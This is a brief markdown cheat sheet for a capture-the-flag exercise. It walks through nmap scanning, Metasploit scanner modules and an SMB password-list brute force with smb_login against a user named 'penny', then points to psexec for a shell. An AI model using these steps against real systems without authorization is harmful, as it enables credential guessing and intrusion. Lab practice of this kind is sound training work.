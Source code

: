 # 🔍 CTF Scanning & SMB Exploitation

## 1. Start Metasploit
```bash
msfconsole
```

## 2. Basic Nmap Scan
```bash
nmap [target-ip]
```

### Useful Nmap Options:
- `-p`: Scan specific ports (e.g. `-p 80,443`)
- `-sV`: Version detection
- `-sU`: UDP scan

## 3. Metasploit Scanning Modules
To use a scanner module:
1. Search scanner:
   ```bash
   search type:auxiliary scanner
   ```
2. Select scanner:
   ```bash
   use [module_number]
   ```
3. Configure it:
   ```bash
   set RHOSTS [target-ip]
   set THREADS 10
   run
   ```

### Example: Port 8000
```bash
nmap -sV -p 8000 [target-ip]
```

## 4. SMB Enumeration & Password File Attack

### Step-by-step:
```bash
search smb_login
use [module_number]
set RHOSTS [target-ip]
set SMBUser penny
set PASS_FILE /path/to/passwords.txt
run
```

Once a valid password is found, a shell can be attempted using `exploit/windows/smb/psexec` or other appropriate modules.
